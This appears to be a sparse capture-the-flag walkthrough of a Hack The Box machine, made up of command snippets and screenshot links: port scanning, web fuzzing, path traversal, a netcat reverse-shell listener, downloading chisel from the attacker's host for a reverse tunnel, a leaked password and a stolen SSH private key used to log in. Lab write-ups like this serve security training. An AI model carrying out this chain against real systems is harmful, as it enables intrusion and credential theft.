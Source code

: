 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.164
```
![image](https://github.com/regarmulia/HTB/assets/33616880/bd23ea8e-8d62-47e6-b5dc-85b954b967a3)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.164/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5795739c-4a17-4504-8488-d1ace66b3196)


```
source.zip
git log
```
![image](https://github.com/regarmulia/HTB/assets/33616880/e3fad636-4220-495e-bb1d-56e184b5896c)

![image](https://github.com/regarmulia/HTB/assets/33616880/d789400c-a783-427a-912f-402b6a3abb62)

![image](https://github.com/regarmulia/HTB/assets/33616880/259419d5-99bc-40eb-93a0-9564fe70068c)


```
http://10.10.11.164/upcloud
sample
```
![image](https://github.com/regarmulia/HTB/assets/33616880/b4583816-0a36-4f81-9a89-397b094bae2e)


```
Views.py
```
![image](https://github.com/regarmulia/HTB/assets/33616880/193201c3-0cea-4314-a186-70c17f23143e)


```
..//app/app/views.py
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6d1f0daa-1966-4db5-b468-26485f7bd868)

![image](https://github.com/regarmulia/HTB/assets/33616880/0b21c820-b480-440a-94f3-4b8412476caf)


```
nc -lvnp 443
http://10.10.11.164/0xdf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3435d421-6ef9-4832-abe4-507d7b8c0462)


```
ifconfig
```
![image](https://github.com/regarmulia/HTB/assets/33616880/187abd6f-a957-4a27-a578-4ec59fe32b48)


```
wget http://10.10.14.2:8000/chisel_1.9.0_linux_amd64
```
![image](https://github.com/regarmulia/HTB/assets/33616880/710b1a2f-ba49-4b90-909f-c340735bdc2d)


```
/chisel_1.9.0_linux_amd64 server -p 8000 –reverse
./chisel_1.9.0_linux_amd64 client 10.10.14.2:8000 R:3000:172.17.0.1:3000
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2f932b94-17a3-440f-946b-43b1885d3c3f)

![image](https://github.com/regarmulia/HTB/assets/33616880/261f4c2e-61ba-4924-b826-e91e62068968)


```
http://127.0.0.1:3000/
Soulless_Developer#2022
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c4e06b02-b002-47d4-8f27-9874144fdb20)


```
http://127.0.0.1:3000/dev01/home-backup/src/branch/main/.ssh/id_rsa
```
![image](https://github.com/regarmulia/HTB/assets/33616880/111d3d4a-6636-4f38-b2b0-24b20a9030ca)


```
ssh -i id_rsa dev01@10.10.11.164
```
![image](https://github.com/regarmulia/HTB/assets/33616880/253a8ec4-8df2-4dfd-9717-acc2eaabe53f)


```
./pspy64
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0370c502-059d-4b9c-8101-6b96ae788174)
